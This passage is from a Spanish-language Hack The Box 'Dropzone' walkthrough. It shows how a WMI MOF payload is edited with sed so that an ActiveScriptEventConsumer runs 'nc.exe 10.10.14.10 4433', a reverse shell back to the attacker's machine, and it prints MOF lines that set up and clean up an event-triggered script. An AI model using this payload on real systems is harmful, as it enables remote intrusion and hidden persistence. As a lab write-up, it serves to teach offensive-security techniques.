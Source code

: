 ![139bash_sed_EXE_2_ncEXE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139bash_sed_EXE_2_ncEXE.png)

En la instrucción número **1**, buscamos la cadena **@EXE@** en el payload, es la número **2** buscamos la cadena **nc.exe**, como no hay match nos responde con error y en la número **3** jugamos con [sed](https://www.ochobitshacenunbyte.com/2019/05/28/uso-del-comando-sed-en-linux-y-unix-con-ejemplos/) para jugar con el contenido del archivo, donde yo creo que la mayoría se entiende y la duda puede estar en la `g`, ella le indica a **sed** que haga el remplazo en todos los matchs que encuentre.

**Para decirle que haga el cambio permanente, le tenemos que indicar el parámetro `-i` a** sed **(:**

Ahora en esta instancia, `Instance of ActiveScriptEventConsumer as $cons`, modificamos la línea donde esta `nc.exe` para que nos haga una petición a nuestra máquina:

```mof
...
ScriptText = ...ns.Run(\\"nc.exe 10.10.14.10 4433\\");} catch...
...
```

:)

<span style="color: red">**#{mofname}**</span>: acá va el nombre del objeto `.mof`:

```bash
❱ sed -i 's/#{mofname}/payload.mof/g' payload.mof
```

<span style="color: red">**@CLASS@**</span>: que al parecer toma el valor de la clase, pongamos cualquiera:

```bash
❱ sed 's/@CLASS@/eAcabo/g' payload.mof | grep -n eAcabo
2:class MyClasseAcabo
29:  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"nc.exe\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClasseAcabo\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
40:  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClasseAcabo\\"";
59:instance of MyClasseAcabo as $MyClass
```
